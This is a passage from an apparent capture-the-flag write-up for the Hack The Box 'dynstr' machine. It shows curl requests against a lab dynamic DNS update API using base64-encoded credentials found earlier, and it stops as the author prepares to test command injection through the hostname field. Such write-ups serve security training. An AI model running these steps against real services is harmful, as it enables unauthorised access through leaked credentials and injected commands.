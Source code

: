 We can try this with cURL:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214"
badauth

┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214&hostname=dyna.htb"
badauth
```

So following the dynu guide I've used my Kali IP, then I tried it adding the dyna.htb hostname. Now we need to try basic authorization, and we have the creds found earlier on the site so first we base64 encode them:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# echo -n "dynadns:sndanyd" | base64 -w 0
ZHluYWRuczpzbmRhbnlk
```

Now we can use these creds:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214&hostname=dyna.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk"
911 [wrngdom: htb]
```

Now we get a different error. Probably means wrong domain, let's add the other domains we found on the website to our hosts file:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# echo "10.10.10.244 dnsalias.htb dynamicdns.htb no-ip.htb dyna.htb" >> /etc/hosts
```

Now try a different domain:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214&hostname=no-ip.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk"       
911 [wrngdom: htb]
```

I played around some here, eventually trying to add a subdomain which worked:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214&hostname=pencer.no-ip.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk"
good 10.10.14.214
```

Now we're getting somewhere. We can do a simple test to see if that subdomain can contain commands:

